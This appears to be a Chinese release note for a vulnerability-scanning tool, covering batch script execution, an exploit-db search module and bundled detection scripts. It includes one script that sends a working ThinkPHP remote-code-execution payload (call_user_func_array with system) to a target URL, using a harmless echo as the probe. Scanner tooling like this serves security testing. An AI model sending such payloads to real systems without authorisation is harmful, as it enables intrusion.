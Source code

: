 2. EXPSearch：用来在exploit-db上面提取漏洞的
   - `java -jar WKer_EXPSearch.jar`程序生成的扫描信息结果会放在data目录下，有漏洞信息和poc或exp。

## V1.2新版本

这次版本更新其实没有太多的变化，主要是修复了之前的一些bug，以及增加了一些方便的操作。

最主要的更新是增加了批量执行脚本的功能，这个功能是勾选上你需要选择执行的脚本，然后选择运行中的运行所有选中脚本。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210308140332243.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4MzkwNTYx,size_16,color_FFFFFF,t_70#pic_center)

就可以批量执行了。

双击脚本就可以看到脚本的源代码，然后运行就可以了：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210308140332342.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4MzkwNTYx,size_16,color_FFFFFF,t_70#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210308140332375.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4MzkwNTYx,size_16,color_FFFFFF,t_70#pic_center)

但是漏洞探测的脚本需要注意的是，我们需要设置全局的url变量，因为：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210308140332425.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4MzkwNTYx,size_16,color_FFFFFF,t_70#pic_center)

```js
#request url = var
#define payload = /public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20wker
function main(args)
{
	res = HttpGet(url.payload,"User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36");
	if(StrFindStr(res[0],"wker",0)!= "-1")
	{
		print(url."存在thinkphp远程代码执行");
	}

}
```

因为我都是使用了#request要求IDE检查是否设置了url，只有在全局变量中设置了才可以。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210308140332624.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4MzkwNTYx,size_16,color_FFFFFF,t_70#pic_center)

这次更新我也附带了104个脚本文件，里面各式各样的脚本都有（有一些是抄的），以后也会经常更新（关注官方源）。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210308140332798.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4MzkwNTYx,size_16,color_FFFFFF,t_70#pic_center)

当然误报是正常的，不能确定百分百的正确性，但是已经是很不错的了。

并且修复了一个github的加载bug，之前加载中文路径错误（其实是我写的时候忘记URL编码了...）现在也进行了修复。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210308140332172.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4MzkwNTYx,size_16,color_FFFFFF,t_70#pic_center)

## V1.22

